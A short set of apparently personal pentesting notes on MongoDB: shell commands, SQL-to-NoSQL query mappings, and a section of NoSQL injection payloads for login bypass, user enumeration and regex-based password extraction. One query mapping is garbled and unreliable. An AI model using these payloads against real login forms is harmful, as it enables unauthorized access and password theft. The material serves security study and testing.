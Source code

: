 # MongoDB

# Notes

- Hierarchy : database > collection (table) > documents (entries)

# Command lines

Connect
`mongo 1.1.1.1:27017/db`
List databases
`show dbs`
Swith database
`use dbname`
Show collections (tables)
`show collections`
Show collection entries (select from table)
`db.collname.find()`

# NoSQL

- SELECT * FROM collection WHERE last_name = 'Sandler';
`['last_name' => 'Sandler']`
- SELECT * FROM collection WHERE last_name = 'Phillips' AND gender = 'male';
`['last_name' => 'Phillips', 'gender' = 'male']`
- SELECT * FROM collection WHERE game > 50;
`['age' => ['$lt','Sandler']]`

# Operators reference

## Comparison

[Untitled](MongoDB%2099a67/Untitled%20D%20229f5.csv)

## Logical

[Untitled](MongoDB%2099a67/Untitled%20D%20b2fc1.csv)

# NoSQL Injections

## Login bypass

- Random user
Remplacer ?user=username&password=password par :

```
user[$ne]=username&password[$ne]=password

```

- Enumerate users
`user[$nin][]=admin&user[$nin][]=username1&user[$nin][]=username2&password[$ne]=password`
- Guess password length
`user[$nin][]=admin&pass[$regex]=^.{8}$&remember=on`
- Extract password

```
# Fuzz each character with burp
user=admin&pass[$regex]=A.......&remember=on
user=admin&pass[$regex]=AA......&remember=on

```